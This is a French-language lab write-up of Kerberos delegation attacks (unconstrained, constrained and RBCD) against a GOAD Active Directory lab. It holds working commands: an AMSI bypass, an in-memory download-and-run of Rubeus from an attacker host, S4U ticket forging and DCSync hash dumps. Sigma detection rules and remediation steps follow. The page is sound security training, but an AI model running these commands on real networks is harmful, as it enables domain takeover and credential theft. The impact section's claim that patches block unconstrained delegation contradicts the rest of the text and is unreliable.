






# SC-AD-007 — Kerberos Delegation Abuse

**HikenRoot Forge — MediaTech Groupe SA**

---

## Classification

| Attribut | Valeur |
|----------|--------|
| **Scénario** | SC-AD-007 |
| **Titre** | Kerberos Delegation Abuse |
| **Référence Mayfly** | [Part 10 — Delegations](https://mayfly277.github.io/posts/GOADv2-pwning-part10/) |
| **Certifications** | CRTP, CRTO, CRTE |
| **Sévérité** | Critique (CVSS 3.1 : 9.1) |
| **MITRE ATT&CK** | T1558.001, T1550.003, T1134.001 |
| **Domaines compromis** | north.sevenkingdoms.local, sevenkingdoms.local |
| **Date d'exécution** | 6 mars 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur

Ce scénario démontre que les mécanismes de **délégation Kerberos** — conçus pour permettre aux services d'agir au nom des utilisateurs — peuvent être détournés pour obtenir Domain Admin. Contrairement à [SC-AD-004](SC-AD-004-acl-abuse-chain.md) qui exploite une chaîne d'ACL, ici c'est le **protocole Kerberos lui-même** (S4U2Self, S4U2Proxy, RBCD) qui constitue le vecteur d'attaque. Quatre vecteurs sont testés : la délégation non contrainte (échoue ICI car la coercion visait un listener désigné par IP → repli NTLM ; aucun patch ne neutralise l'unconstrained delegation), la délégation contrainte avec et sans protocol transition, et la RBCD. Les trois derniers aboutissent à un contrôle total de deux domaines. L'ensemble est réalisé depuis Linux avec Impacket, sans aucun exploit CVE ni écriture disque sur les cibles.

### Pour un auditeur ISO 27001 / NIS2

- **ISO 27001 — A.8.3 (Restriction des accès privilégiés)** : les comptes `jon.snow` (constrained delegation avec protocol transition) et `CASTELBLACK$` (constrained delegation Kerberos only) disposent de droits de délégation permettant d'usurper l'identité de n'importe quel utilisateur, y compris les Domain Admins. Le protocole S4U2Self autorise cette usurpation sans que l'utilisateur cible ne s'authentifie. L'absence de restriction via le groupe Protected Users constitue une non-conformité à l'annexe A.8.3.
- **ISO 27001 — A.8.5 (Authentification sécurisée)** : la possibilité de modifier le SPN dans un ticket Kerberos (altservice) démontre une faiblesse architecturale : une délégation vers un seul service (CIFS) donne en réalité accès à **tous** les services (LDAP, HOST, HTTP). Cette faiblesse n'est compensée par aucun contrôle.
- **NIS2 — Article 21 (Gestion des risques)** : le chaînage RBCD + constrained delegation sans protocol transition (Vecteur 2b) illustre une complexité d'attaque que seul un monitoring avancé de l'attribut `msDS-AllowedToActOnBehalfOfOtherIdentity` et des Event IDs 4769/5136 peut détecter. L'absence de ce monitoring constitue un manquement aux exigences NIS2.
- **NIS2 — Article 23 (Notification des incidents)** : les DCSync résultants exposent l'intégralité des credentials de deux domaines, constituant un incident majeur devant être notifié dans les 24 heures.

### Pour un RSSI

Quatre vecteurs de délégation Kerberos testés. La délégation non contrainte (Vecteur 1) échoue ICI parce que la coercion ciblait un listener désigné par IP : Windows bascule alors en NTLM (pas de Kerberos), donc aucun TGT déposé. Avec un FQDN/nom de service, la capture de TGT via unconstrained reste possible — aucun patch ne la neutralise. Les trois autres vecteurs aboutissent tous à Domain Admin : la constrained delegation avec protocol transition (une commande Impacket suffit), la constrained delegation sans protocol transition (chaînage RBCD intermédiaire requis — technique CRTE), et la RBCD directe sur un DC. Le risque principal est l'altservice : même une délégation restreinte à un seul SPN donne accès à tous les services de la cible. Recommandation immédiate : Protected Users pour tous les comptes sensibles + MachineAccountQuota à 0.

---

## Contexte — Différence avec SC-AD-004

Ce scénario se concentre sur le **protocole Kerberos** comme vecteur d'attaque. [SC-AD-004](SC-AD-004-acl-abuse-chain.md) exploite une chaîne d'ACL (ForceChangePwd → GenericWrite → WriteDACL → GenericAll) pour atteindre un compte avec des droits sur un DC. SC-AD-007 part du principe que des comptes de service avec délégation Kerberos existent (configuration courante en entreprise) et démontre comment ces délégations permettent l'usurpation d'identité via les extensions S4U du protocole Kerberos.

Les prérequis (credentials de `jon.snow`, `stannis.baratheon`, `eddard.stark`) sont documentés dans les scénarios précédents (SC-AD-002, SC-AD-004).

---

## Diagramme réseau



---

## Kill Chains

### Vecteur 1 — Unconstrained Delegation (échec ici : coercion par IP → NTLM)



### Vecteur 2 — Constrained avec protocol transition



### Vecteur 2b — Constrained SANS protocol transition



### Vecteur 3 — RBCD directe sur DC



---

## Scope & Méthodologie

| Élément | Détail |
|---------|--------|
| **Périmètre** | GOAD v3 — 5 VMs, 3 domaines, VLAN10 |
| **Machine d'attaque** | Kali Linux 10.10.10.2 (WireGuard) |
| **Outils** | Impacket v0.14, netexec, coercer v2.4.3, Rubeus v2.2.0, krbrelayx (printerbug.py) |
| **Référence** | mayfly277 GOAD Part 10 |
| **Approche** | Exploitation manuelle — pas de Metasploit |

---

## Phases d'exploitation

### Phase 1 — Énumération des délégations

**1. Recherche des délégations avec findDelegation.py**

```bash
impacket-findDelegation north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!' -dc-ip 192.168.10.11
```

```
AccountName   AccountType  DelegationType                       DelegationRightsTo                         SPN Exists
jon.snow      Person       Constrained w/ Protocol Transition   CIFS/winterfell                            No
jon.snow      Person       Constrained w/ Protocol Transition   CIFS/winterfell.north.sevenkingdoms.local  No
CASTELBLACK$  Computer     Constrained w/o Protocol Transition  HTTP/winterfell                            No
CASTELBLACK$  Computer     Constrained w/o Protocol Transition  HTTP/winterfell.north.sevenkingdoms.local  Yes
WINTERFELL$   Computer     Unconstrained                        N/A                                        Yes
```

Trois types de délégation identifiés — un vecteur d'attaque pour chacun.

**2. Confirmation unconstrained delegation sur WINTERFELL**

```bash
netexec ldap 192.168.10.11 -u 'eddard.stark' -p 'FightP3aceAndHonor!' -d north.sevenkingdoms.local --trusted-for-delegation
```

```
LDAP  192.168.10.11  389  WINTERFELL  [+] Pwn3d!
LDAP  192.168.10.11  389  WINTERFELL  WINTERFELL$
```

---

### Phase 2 — Vecteur 1 : Unconstrained Delegation (échec : coercion par IP)

**Objectif** : forcer KINGSLANDING$ à s'authentifier en Kerberos vers WINTERFELL pour capturer son TGT.

**3. RDP + AMSI bypass + Rubeus en mémoire**

```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.10.11 /cert-ignore /dynamic-resolution
```

AMSI bypass — patch AmsiContext pour corrompre le contexte AMSI :

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```

Rubeus chargé en mémoire sans écriture disque :

```powershell
$data=(New-Object System.Net.WebClient).DownloadData('http://10.10.10.2:8080/Rubeus.exe');$assem=[System.Reflection.Assembly]::Load($data);[Rubeus.Program]::MainString("triage")
```

**4. Tentatives de coercion**

PetitPotam (MS-EFSR) :

```bash
coercer coerce -u eddard.stark -p 'FightP3aceAndHonor!' -d north.sevenkingdoms.local -l 192.168.10.11 -t 192.168.10.10 --always-continue
```

Résultat : `ERROR_BAD_NETPATH` — KINGSLANDING tente la connexion mais en NTLM, pas Kerberos. Aucun TGT déposé.

PrinterBug (MS-RPRN) :

```bash
python3 /opt_test/krbrelayx/printerbug.py north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.10.10 192.168.10.11
```

Résultat : `Got handle` → `Triggered RPC backconnect` mais Rubeus monitor (`/interval:1 /filtuser:KINGSLANDING$ /nowrap`) ne capture aucun TGT.

**Conclusion Vecteur 1** : la coercion ciblait un listener par IP → Windows répond en NTLM (pas de Kerberos), donc pas de TGT déposé. Ce n'est **pas** un blocage par patch : avec un FQDN/nom de service, l'unconstrained delegation reste exploitable. À retenir : coercer un endpoint **par son nom**, pas par IP.

> **Note** : l'unconstrained delegation n'est pas corrigée par un patch — le facteur déterminant est Kerberos vs NTLM (FQDN vs IP lors de la coercion).

---

### Phase 3 — Vecteur 2 : Constrained Delegation avec protocol transition

**Objectif** : exploiter la délégation contrainte de `jon.snow` vers CIFS/winterfell. Le protocol transition (S4U2Self) permet de demander un ticket pour Administrator sans que celui-ci s'authentifie.

**5. S4U2Self + S4U2Proxy**

```bash
impacket-getST -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip 192.168.10.11 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

```
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

**6. Shell Domain Admin NORTH**

```bash
export KRB5CCNAME=Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
impacket-wmiexec -k -no-pass north.sevenkingdoms.local/administrator@winterfell -dc-ip 192.168.10.11
```

```
C:\>whoami
north\administrator
```

**7. altservice — SPN swap à la volée**

La partie SPN du ticket S4U2Proxy n'est pas chiffrée — une délégation vers CIFS donne accès à LDAP, HOST, HTTP, etc.

```bash
impacket-getST -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip 192.168.10.11 -altservice 'LDAP/winterfell' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

```
[*] Changing service from CIFS/winterfell@NORTH.SEVENKINGDOMS.LOCAL to LDAP/winterfell@NORTH.SEVENKINGDOMS.LOCAL
```

**8. DCSync NORTH**

```bash
export KRB5CCNAME=Administrator@LDAP_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
impacket-secretsdump -k -no-pass north.sevenkingdoms.local/administrator@winterfell -dc-ip 192.168.10.11 -just-dc-user 'NORTH\administrator'
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
```

---

### Phase 4 — Vecteur 2b : Constrained Delegation SANS protocol transition

**Objectif** : exploiter la constrained delegation de CASTELBLACK$ vers HTTP/winterfell en mode "Kerberos only".

**Pourquoi c'est différent du Vecteur 2** : sans protocol transition, S4U2Self renvoie un TGS **non-forwardable** → S4U2Proxy échoue. La solution est de chaîner RBCD pour obtenir un TGS forwardable intermédiaire, puis de l'injecter dans S4U2Proxy via `-additional-ticket`. C'est la technique la plus avancée du scénario (niveau CRTE).

**9. Récupération du hash machine CASTELBLACK$ (via DCSync — prérequis DA NORTH)**

```bash
impacket-secretsdump north.sevenkingdoms.local/administrator@192.168.10.11 -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' -just-dc-user 'CASTELBLACK$'
```

```
CASTELBLACK$:1105:aad3b435b51404eeaad3b435b51404ee:97fcba88568c494ba055ad9ab56e3f94:::
```

**10. Création du compte machine rbcd_const$**

```bash
impacket-addcomputer -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.10.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!'
```

```
[*] Successfully added machine account rbcd_const$ with password rbcdpass.
```

**11. Configuration RBCD — rbcd_const$ vers CASTELBLACK$**

Un compte machine peut modifier son propre attribut `msDS-AllowedToActOnBehalfOfOtherIdentity` :

```bash
impacket-rbcd -delegate-from 'rbcd_const$' -delegate-to 'CASTELBLACK$' -dc-ip 192.168.10.11 -action 'write' -hashes ':97fcba88568c494ba055ad9ab56e3f94' 'north.sevenkingdoms.local/CASTELBLACK$'
```

```
[*] Delegation rights modified successfully!
[*] rbcd_const$ can now impersonate users on CASTELBLACK$ via S4U2Proxy
```

**12. RBCD S4U — TGS forwardable sur CASTELBLACK**

```bash
impacket-getST -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.10.11 'north.sevenkingdoms.local/rbcd_const$:rbcdpass'
```

```
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

Ce TGS est **forwardable** (obtenu via RBCD) — c'est la clé du contournement.

**13. S4U2Proxy avec additional-ticket + altservice**

Le TGS forwardable remplace le S4U2Self qui aurait échoué. On ajoute `-altservice cifs/winterfell` pour un accès SMB :

```bash
impacket-getST -spn 'http/winterfell' -altservice 'cifs/winterfell' -impersonate Administrator -dc-ip 192.168.10.11 -hashes ':97fcba88568c494ba055ad9ab56e3f94' -additional-ticket 'Administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' 'north.sevenkingdoms.local/CASTELBLACK$'
```

```
[*] Using additional ticket ... instead of S4U2Self
[*] Requesting S4U2Proxy
[*] Changing service from http/winterfell to cifs/winterfell
```

La ligne `Using additional ticket ... instead of S4U2Self` confirme le contournement.

**14. Shell Domain Admin NORTH**

```bash
export KRB5CCNAME=Administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
impacket-wmiexec -k -no-pass north.sevenkingdoms.local/administrator@winterfell -dc-ip 192.168.10.11
```

```
C:\>whoami
north\administrator
```

**15. Cleanup Vecteur 2b**

```bash
impacket-rbcd -delegate-from 'rbcd_const$' -delegate-to 'CASTELBLACK$' -dc-ip 192.168.10.11 -action 'flush' -hashes ':97fcba88568c494ba055ad9ab56e3f94' 'north.sevenkingdoms.local/CASTELBLACK$'
impacket-addcomputer -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.10.11 'north.sevenkingdoms.local/administrator' -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' -delete
```

```
[*] Delegation rights flushed successfully!
[*] Successfully deleted rbcd_const$.
```

---

### Phase 5 — Vecteur 3 : RBCD directe sur DC

**Objectif** : exploiter le GenericWrite de `stannis.baratheon` sur KINGSLANDING$ pour obtenir DA sevenkingdoms.local.

**Prérequis** : `stannis.baratheon:P@ssw0rd123!` — obtenu via la chaîne ACL de [SC-AD-004](SC-AD-004-acl-abuse-chain.md).

**16. Création du faux compte machine**

```bash
impacket-addcomputer -computer-name 'YOURPC$' -computer-pass 'Password123!' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:P@ssw0rd123!'
```

```
[*] Successfully added machine account YOURPC$ with password Password123!.
```

**17. Écriture RBCD sur KINGSLANDING$**

```bash
impacket-rbcd -delegate-from 'YOURPC$' -delegate-to 'KINGSLANDING$' -dc-ip 192.168.10.10 -action 'write' 'sevenkingdoms.local/stannis.baratheon:P@ssw0rd123!'
```

```
[*] Delegation rights modified successfully!
[*] YOURPC$ can now impersonate users on KINGSLANDING$ via S4U2Proxy
```

**18. S4U → Administrator sur KINGSLANDING**

```bash
impacket-getST -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 192.168.10.10 'sevenkingdoms.local/YOURPC$:Password123!'
```

```
[*] Saving ticket in Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
```

**19. DCSync SEVENKINGDOMS**

```bash
export KRB5CCNAME=Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
impacket-secretsdump -k -no-pass @kingslanding.sevenkingdoms.local -just-dc-user 'SEVENKINGDOMS\administrator'
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
```

**20. Cleanup Vecteur 3**

```bash
impacket-rbcd -delegate-from 'YOURPC$' -delegate-to 'KINGSLANDING$' -dc-ip 192.168.10.10 -action 'flush' 'sevenkingdoms.local/stannis.baratheon:P@ssw0rd123!'
impacket-addcomputer -computer-name 'YOURPC$' -computer-pass 'Password123!' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/administrator' -hashes 'aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e' -delete
```

```
[*] Delegation rights flushed successfully!
[*] Successfully deleted YOURPC$.
```

---

## Credentials récupérés

| Compte | Hash / Password | Domaine | Méthode |
|--------|----------------|---------|---------|
| Administrator (NORTH) | `dbd13e1c4e338284ac4e9874f7de6ef4` | north.sevenkingdoms.local | Vecteur 2 — Constrained S4U + altservice DCSync |
| Administrator (SEVENKINGDOMS) | `c66d72021a2d4744409969a581a1705e` | sevenkingdoms.local | Vecteur 3 — RBCD S4U DCSync |
| CASTELBLACK$ | `97fcba88568c494ba055ad9ab56e3f94` | north.sevenkingdoms.local | DCSync (DA NORTH prérequis V2b) |

---

## Impact technique

- **Protocole Kerberos comme vecteur** : aucun exploit CVE, aucun 0-day — ce sont les extensions S4U (RFC 4120, MS-SFU) qui sont détournées. Ces extensions sont activées par défaut dans tout AD.
- **altservice = constrained delegation illusoire** : la partie SPN du ticket S4U2Proxy n'est pas chiffrée. Une délégation restreinte à CIFS donne accès à LDAP, HOST, HTTP — tous les services de la cible.
- **Protocol transition vs Kerberos only** : distinction critique. Avec protocol transition, une commande suffit (Vecteur 2). Sans, il faut chaîner RBCD pour contourner le TGS non-forwardable (Vecteur 2b) — technique CRTE.
- **RBCD** : tout GenericWrite sur un compte machine = DA potentiel via S4U.
- **Vecteur 1 bloqué** : patches WS2019 empêchent la coercion Kerberos — constat réaliste 2026.

---

## Impact métier — MediaTech Groupe SA

### Synthèse
En abusant d'une **délégation Kerberos mal maîtrisée** (unconstrained sur un serveur non-DC, ou constrained/RBCD mal cadrée), l'attaquant force un contrôleur de domaine à s'authentifier, **capture son ticket**, puis usurpe un compte à hauts privilèges jusqu'au **DCSync**. Aucune CVE : uniquement un attribut de délégation posé un jour « pour que l'appli marche » et jamais revu. Résultat : **dominance du domaine**.

### Gravité : 🔴 CRITIQUE *(usurpation de privilèges jusqu'à DCSync ; compromission complète du domaine)*

### Impact chiffré

| Poste | Estimation | Hypothèse |
|---|---|---|
| Arrêt de la production éditoriale | 400 k€ – 1,5 M€ | Confinement / ransomware post-dominance : 3–7 jours de publication perturbée. |
| Reconstruction AD / restauration | 200 k€ – 500 k€ | Rebuild de confiance, rotation krbtgt x2, forensic. |
| Exposition RGPD massive | 300 k€ – 2 M€ | DCSync = tous les secrets du domaine → accès à toutes les bases. Notification CNIL 72 h. |
| Réponse à incident majeure | 150 k€ – 400 k€ | DFIR, cellule de crise, juridique. |
| **Total réaliste** | **~1 M€ – 4,4 M€** | Scénario noir d'un quotidien national. |

> **Réalité rédaction** : une délégation unconstrained sur un vieux serveur d'impression ou d'application métier, c'est le genre de configuration posée il y a 10 ans par un intégrateur, jamais documentée, jamais auditée. Personne ne sait plus qu'elle est là — sauf l'attaquant qui la trouve avec BloodHound en cinq minutes.

### Réglementaire
- **RGPD Art. 32 + 33/34** — compromission majeure, notifications obligatoires.
- **NIS2 Art. 21 + 23** — incident significatif.
- **ISO 27001 A.8.2** (accès privilégiés), **A.5.15** (contrôle d'accès), **A.8.9** (gestion des configurations — l'attribut de délégation).

### Décision COMEX
- **Mandater un audit exhaustif des délégations Kerberos** (toute délégation unconstrained hors DC = à supprimer, tout RBCD/constrained à justifier) — livrable priorisé, c'est un chantier de gouvernance récurrent.
- **Placer les comptes sensibles dans le groupe `Protected Users`** et marquer « *Account is sensitive and cannot be delegated* », pour retirer ces identités du périmètre de délégation.

## Détection SOC / SIEM

### Event IDs critiques

| Event ID | Source | Description |
|----------|--------|-------------|
| 4769 | Security | TGS request — `Ticket Options: 0x50800000` (S4U2Proxy) |
| 5136 | Security | Directory service object modified — `msDS-AllowedToActOnBehalfOfOtherIdentity` |
| 4741 | Security | Computer account created — comptes machine par users standards |
| 4742 | Security | Computer account changed — flag de délégation modifié |

### Règles Sigma

```yaml
title: Kerberos S4U2Proxy Constrained Delegation Abuse
id: sc-ad-007-001
status: experimental
description: Détecte les requêtes TGS S4U2Proxy indiquant un abus de délégation
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        TicketOptions: '0x50800000'
        TransmittedServices: '*'
    filter:
        ServiceName|endswith: '$'
        IpAddress: '::1'
    condition: selection and not filter
level: high
tags:
    - attack.credential_access
    - attack.t1558.001
```

```yaml
title: RBCD msDS-AllowedToActOnBehalfOfOtherIdentity Modification
id: sc-ad-007-002
status: experimental
description: Détecte la modification de l'attribut RBCD sur un compte machine
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5136
        AttributeLDAPDisplayName: 'msDS-AllowedToActOnBehalfOfOtherIdentity'
    condition: selection
level: critical
tags:
    - attack.persistence
    - attack.t1134.001
```

```yaml
title: Machine Account Created by Non-Admin User
id: sc-ad-007-003
status: experimental
description: Détecte la création de comptes machine par des utilisateurs non-administrateurs
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4741
    filter:
        SubjectUserName|endswith: '$'
    condition: selection and not filter
level: medium
tags:
    - attack.persistence
    - attack.t1136.002
```

---

## Remédiation Secure by Design

### 0-24h (urgence)

- **Protected Users** pour tous les comptes DA, EA et sensibles
- Audit des délégations : `Get-ADComputer -Filter {msDS-AllowedToDelegateTo -ne "$null"}`

### 1 semaine

- `ms-DS-MachineAccountQuota` à **0**
- Supprimer GenericWrite/GenericAll sur comptes machine DC
- Monitoring SIEM des Event IDs 4741, 5136, 4769

### 1 mois

- **Tiering model AD** (Tier 0/1/2)
- Migration vers **gMSA** avec rotation automatique
- **Kerberos Armoring (FAST)**
- Documentation et revue trimestrielle des délégations restantes

---

## Architecture cible sécurisée



---

## Références

- [mayfly277 — GOAD Part 10 Delegations](https://mayfly277.github.io/posts/GOADv2-pwning-part10/)
- [hackndo — Constrained & Unconstrained Delegation](https://en.hackndo.com/constrained-unconstrained-delegation/)
- [hackndo — RBCD Attack](https://beta.hackndo.com/resource-based-constrained-delegation-attack/)
- [Elad Shamir — Wagging the Dog](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
- [harmj0y — S4U2Pwnage](https://blog.harmj0y.net/activedirectory/s4u2pwnage/)
- [snovvcrash — Abusing KCD without Protocol Transition](https://snovvcrash.rocks/2022/03/06/abusing-kcd-without-protocol-transition.html)
- [Black Hills InfoSec — Abusing Delegation with Impacket](https://www.blackhillsinfosec.com/abusing-delegation-with-impacket-part-1/)
- [The Hacker Recipes — Kerberos Delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations)
- [HackTricks — Silver Ticket SPN list](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)
- [MITRE ATT&CK T1558.001](https://attack.mitre.org/techniques/T1558/001/)
- [MITRE ATT&CK T1550.003](https://attack.mitre.org/techniques/T1550/003/)

---

*HikenRoot Forge — SC-AD-007 — hik3nR00t — Mars 2026*
